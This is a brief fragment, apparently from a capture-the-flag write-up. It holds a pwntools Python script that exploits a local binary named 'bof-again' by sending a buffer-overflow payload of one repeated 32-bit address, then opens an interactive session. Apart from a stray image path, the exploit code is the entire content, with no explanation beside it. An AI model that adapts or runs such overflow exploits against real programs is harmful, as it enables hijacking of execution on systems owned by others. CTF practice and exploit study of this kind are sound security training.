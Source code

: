 
&emsp;&emsp;
#### Code

```python
from pwn import *

io = process('./bof-again')

payload = p32(0x080486a6)*64+'\0'
io.sendline(payload)

io.interactive()
```